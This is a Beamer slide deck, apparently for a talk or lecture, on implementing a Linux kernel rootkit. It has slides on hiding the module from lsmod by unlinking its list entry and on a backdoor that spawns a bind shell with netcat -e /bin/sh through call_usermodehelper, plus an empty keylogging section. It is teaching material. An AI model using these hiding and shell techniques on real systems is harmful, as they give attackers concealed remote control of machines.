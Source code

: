 \documentclass[]{beamer}
\newcommand{\shellcmdinline}[1]{\texttt{\footnotesize #1}}
\begin{document}
\section{Implementation}
\begin{frame}[t]{Outline}
\tableofcontents[currentsection]
\end{frame}


\subsection{Hiding}

\begin{frame}[t]{Hiding}
  \begin{itemize}
    \item Mask existence
    \begin{itemize}
      \item Kernel modules not visible as a process
    \end{itemize}
    \item \shellcmdinline{lsmod}
    \begin{itemize}
      \item special exported symbol \texttt{extern struct module \_\_this\_module;}
      \item \lstinline{list_del(&(__this_module.list));}
    \end{itemize}
  \end{itemize}
  
\end{frame}


\subsection{Backdoor}

\begin{frame}[t]{Backdoor}
  \begin{itemize}
    \item Spanning userland process
    \begin{itemize}
      \item \shellcmdinline{netcat -l -p 6666 -e /bin/sh}
      \item \shellcmdinline{call\_usermodehelper}
    \end{itemize}
  \end{itemize}
  
\end{frame}


\subsection{Keylogging}
\end{document}
